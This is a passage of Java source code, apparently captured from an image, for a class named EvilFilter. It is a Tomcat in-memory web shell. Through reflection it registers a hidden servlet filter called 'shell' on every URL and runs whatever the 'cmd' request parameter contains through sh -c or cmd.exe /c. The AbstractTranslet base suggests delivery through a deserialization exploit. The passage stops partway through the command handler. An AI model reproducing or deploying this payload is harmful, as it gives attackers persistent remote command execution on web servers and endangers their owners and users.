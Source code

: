 ```java
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Map;
import java.util.Scanner;
import javax.servlet.Filter;

public class EvilFilter extends AbstractTranslet implements Filter{
    static{
        try {
            final String name = "shell";
            WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();

            Field Configs = Class.forName("org.apache.catalina.core.StandardContext").getDeclaredField("filterConfigs");
            Configs.setAccessible(true);
            Map filterConfigs = (Map) Configs.get(standardContext);

            if (filterConfigs.get(name) == null) {
                Filter filter = new EvilFilter();

                FilterDef filterDef = new FilterDef();
                filterDef.setFilter(filter);
                filterDef.setFilterName(name);
                filterDef.setFilterClass(filter.getClass().getName());

                standardContext.addFilterDef(filterDef);

                FilterMap filterMap = new FilterMap();
                filterMap.addURLPattern("/*");
                filterMap.setFilterName(name);
                filterMap.setDispatcher(DispatcherType.REQUEST.name());

                standardContext.addFilterMapBefore(filterMap);

                Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
                constructor.setAccessible(true);
                ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);

                filterConfigs.put(name, filterConfig);
            }
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    @Override
    public void init(FilterConfig filterConfig) throws ServletException{}
    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException,ServletException{
        HttpServletRequest req = (HttpServletRequest) servletRequest;
        if (req.getParameter("cmd") != null){
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", req.getParameter("cmd")} : new String[]{"cmd.exe", "/c", req.getParameter("cmd")};
```